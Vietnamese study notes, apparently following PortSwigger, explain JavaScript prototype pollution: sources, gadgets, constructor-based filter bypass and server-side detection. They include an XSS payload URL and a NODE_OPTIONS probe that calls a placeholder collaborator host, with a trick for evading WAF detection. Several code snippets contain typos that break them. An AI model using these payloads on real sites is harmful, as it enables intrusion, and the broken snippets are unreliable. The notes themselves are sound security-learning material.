


# Prototype Pollution
Lỗ hổng ô nhiễm tham số là một lỗ hổng bảo mật trong Javascript cho phép kẻ tấn công thêm các thuộc tính tùy ý vào các nguyên mẫu đối tượng toàn cục, sau đó các thuộc tính có thể được thừa kế bởi các đối tượng...

Mặc dù lỗi ô nhiễm nguyên mẫu thường không thể khai thác riêng lẻ, nhưng nó cho phép kẻ tấn công kiểm soát các thuộc tính của đối tượng mà lẻ ra không thể truy cập được. <br>
Trong Javascript phía máy khách, điều này thường dẫn đến lỗi DOM XSS. Trong khi ô nhiễm nguyên mẫu phía máy chủ cố thể thực thi mã từ xa
## Các lỗ hổng baoro mật do ô nhiễm trong quá trình chế taooj nguyên mẫu phát sinh như thế nào
Lỗi nó phát sinh khi một hàm Javascript hơp nhất đệ quy một đối tượng chứa các thuộc tính do người dùng điều khiển vào đối tượng hiện có mà không làm sạch các khóa trước đó. <br>
Có thể chèn thuộc tính từ khóa `__proto__` cùng với các thuộc tính lồng nhau tùy ý. <br>
Khóa `merge` trong ngữ cảnh javascript thao tác `merge` có thể gán các thuộc tính lồng nhau cho nguyên mẫu của đối tượng thay vì giá trị đích <br>
Việc khai thác thành coong hiện tượng ô nhiễm mẫu đòi hổi các yêu tố: <br>
`Nguồn gây ô nhiễm nguyên mẫu` <br>
`Một sinks`: Một hàm Javascript hoặc phần tử DOM cho phép thực thi mã tùy ý <br>
`Một thiết bị có thể bị lợi dụng`: Bất kỳ vật dụng nào được đưa vào bồn rửa mà không qua quá trình lọc hoặc khử trùng đúng cách. <br>
## Các nguồn gây ô nhiễm nguyên mẫu
Nguồn gây ô nhiễm nguyên mẫu là bất kỳ đầu vào nào do người dùng điều khiển, cho phép thêm các thuộc tính tùy ý vào đối tượng nguyên mẫu. <br>
`URL được truy vấn thông qua chuỗi truy vấn hoặc chuỗi phân đoạn` <br>
`Đầu vào dựa trên JSON` <br>
`Tin nhắn trên web` <br>
### Nguyên mẫu ô nhiễm thông qua URL
```
https://vulnerable-website.com/?__proto__[evilProperty]=payload
```
Khi phân tích chuỗi truy vấn thành `key:value` từng cặp, trình phân tích URL có thể hiểu `__proto__` đó là chuỗi tùy ý.
```json
{
    existingProperty1: 'foo',
    existingProperty2: 'bar',
    __proto__: {
        evilProperty: 'payload'
    }
}
```
Nó có thể gán giá trị bằng cách sử dụng câu lệnh tương đương sau:
```
targetObject.__proto__.evilProperty = 'payload'
```

### Tạo nguyên mẫu ô nhiễm thông qua dữ liệu đầu vào JSON
Các đối tượng do người dùng điều khiển thường được tạo ra từ một chuỗi JSON bằng `JSON.parse()`. <br>
> Đặc biệt `JSON.parse()` nó luôn coi khóa bất kỳ nào trong đối tượng JSON là một chuỗi tùy ý, bao gồm cả những thử như `__proto__` <br>
<br>

```json
{
    "__proto__": {
        "evilProperty": "payload"
    }
}
```
Nếu chuyển đổi đối tượng này thành một đối tượng JavaScript thông qua `JSON.parse()` phương thức đối tượng kết quả thực tế sẽ cố một thuộc tính với khóa là `__proto__`. <br>
```js
const objectLiteral = {__proto__: {evilProperty: 'payload'}};
const objectFromJson = JSON.parse('{"__proto__": {"evilProperty": "payload"}}');

objectLiteral.hasOwnProperty('__proto__');     // false
objectFromJson.hasOwnProperty('__proto__');    // true
```
Và kết quả lúc này nếu đối tượng tạo ra thông qua đó `JSON.parse()` sau đó được hợp nhất mà không lọc dẫn đến lỗ hổng ô nhiễm tham số <br>
### Một thiết bị nguyên mẫu giúp giảm ô nhiễm
```js
let transport_url = config.transport_url || defaults.transport_url;
```
Bây giờ chúng ta có thể tưởng tượng mã thư viện sử dụng điều này `transport_url` để tham chiếu tập lệnh vào trang <br>
```js
let script = document.ccreateElement('script');
script.src = `${transport_url}/example.js`;
document.body.appendChild(script);
```
Nếu ứng dụng web chưa thiết lập `transport_url` thuộc tính nào cho đối tượng `config` đây là lỗ hổng. <br>
Trong trường hợp này kẻ tấn công có thể làm ô nhiễm biến toàn cục `Object.prototype` bằng thuoojcc tính của riêng chúng `tranposrt_url` thuộc tính này sẽ được đối tượng thừa kế `config` và được thiết lập làm tên `src` miền cho tập lệnh <br>
Sau đó thực hiện `data:` URL, kẻ tấn coong cũng có thể nhúng XSS <br>
```
https://vulnerable-website.com/?__proto__[transport_url]=data:,alert(1);//
```
## Kỹ thuật kiểm tra Ô nhiễm tham số
Có thể sử dụng thuộc tính bất kỳ cho `Object.Prototype`
```
__proto__[exil] = payload
__proto__.exil = payload
```
Có thể chuyển dấu [] sang dấu . để kiểm tra chúng.
## Nguyên mẫu ô nhiễm thông qua công cụ xây dựng
Đôi khi một số ứng dụng phòng vệ phổ biến loại bỏ bất kỳ thuộc tính nào có khóa `__proto__` bị loại bỏ . Cách tiếp cận mới đó chính là chúng ta có thể tham chiếu `Object.prototype` mà không cần dựa vào `__proto__` kí tự. <br>
Mọi đối tượng Javascript đều có một `constructor` thuộc tính. Chứa tham chiếu đến hàm tạo được sử dụng để tạo ra nó. 
Có thể tạo đối tuộng Object()
```js
let myObjectLiteal = {};
let myObject = new Object();
```
Sau đó có thể tham chiếu đến `Object()` thong qua hàm tích hợp sãn `constructor`.
```js
myObjectLiteral.constructor            // function Object(){...}
myObject.constructor                   // function Object(){...}
```
```js
myObject.constructor.prototype        // Object.prototype
myString.constructor.prototype        // String.prototype
myArray.constructor.prototype         // Array.prototype
```
Vì `myObject.constructr.prototype` tương đương `myObject.__proto__` điều này cung cấp một hướng thay thế sự ô nhiễm nguyên mẫu.

## Ô nhiễm nguyên mẫu phía máy chủ
Kỹ thuật phát hiện lỗi tấn công bằng cách làm  ô nhiễm nguyên mẫu phía máy chủ (black box detection)
## Phát hiện sự ô nhiễm nguyên mẫu phía máy chủ thông qua phản chiếu thuộc tính bị ô nhiễm.
Một lỗi mà các nhà phát triển dễ mắc phải là quên hoặc bỏ qua thực tế rằng `for...in` vòng lặp JavaScript sẽ lặp qua tất cả các thuộc tính có thể liệt kê của một đối tượng, bao gồm cả những thuộc tính mà nó kế thừa thông qua chuỗi nguyên mẫu.
## Phát hiện ô nhiễm nguyên mẫu phía máy chủ mà không cần phản ánh thuộc tính bị ô nhiễm
Có thể xem xét các kỹ thuật sau:
```
Ghi đè mã trạng thái
Ghi đè khoảng trắng Json
Ghi đè bẳng ký tự
```
## Ghi đè bảng ký tự
Các máy chủ Express thường triển khai các mô đun "middleware" cho phép xử lý trước các yêu cầu khi chúng được chuyển đến hàm xử lý thích hợp. <br>
`Body-parser` mô đun thường được xử lý sử dụng phân tích phần thân của các yêu cầu đến nhằm tạo ra một `req.body`.
## Bỏ qua các bộ lọc đầu vào để ngắn chặn sự xâm phạm nguyên mẫu phía máy chủ
Các trang web thường xuyên cố gắng ngăn chặn hoặc các lỗ hổng do tấn công bằng cách lọc các khóa đáng ngờ như `__proto__` <br>
Các ứng dụng Node cũng có thể xóa hoặc vô hiệu hóa `__proto__` hoàn toàn bằng cách sử dụng các dòng lệnh `--disable-proto=delete` . Tuy nhiên có thể bỏ qua bằng cách sử dụng kỹ thuật tạo hàm.
## Thực thi mã từ xa thông qua việc làm ô nhiễm nguyên mẫu phía máy chủ
### Xác định yêu cầu dễ bị tổn thương
Trong Node.js có điểm thực lệnh tiềm năng, nhiều điểm trong số đó nằm trong module `child_process`. Chúng được thường gọi là bởi yêu cầu xảy ra không đồng bộ yêu cầu mà dùng làm ô nhiễm tham số <br>
Biến `NODE_OPTIONS` môi trường cho phép định nghĩa một chuỗi các đối số dòng lệnh sẽ được sử dụng mặc định mỗi khi tạo tiến trình Node mới. <br>
```json
"__proto__": {
    "shell":"node",
    "NODE_OPTIONS":"--inspect=YOUR-COLLABORATOR-ID.oastify.com\"\".oastify\"\".com"
}
```
Bypass
```txt
Việc sử dụng dấu ngoặc kép thoát trong tên máy chủ không hoàn toàn cần thiết. Tuy nhiên, điều này có thể giúp giảm thiểu các trường hợp nhận diện sai bằng cách làm mờ tên máy chủ để tránh bị tường lửa ứng dụng web (WAF) và các hệ thống khác thu thập tên máy chủ phát hiện.
```
## Ngăn ngừa lỗ hổng ô nhiễm tham số
<a href="https://portswigger.net/web-security/prototype-pollution/preventing">Ngăn ngừa lỗ hổng</a>
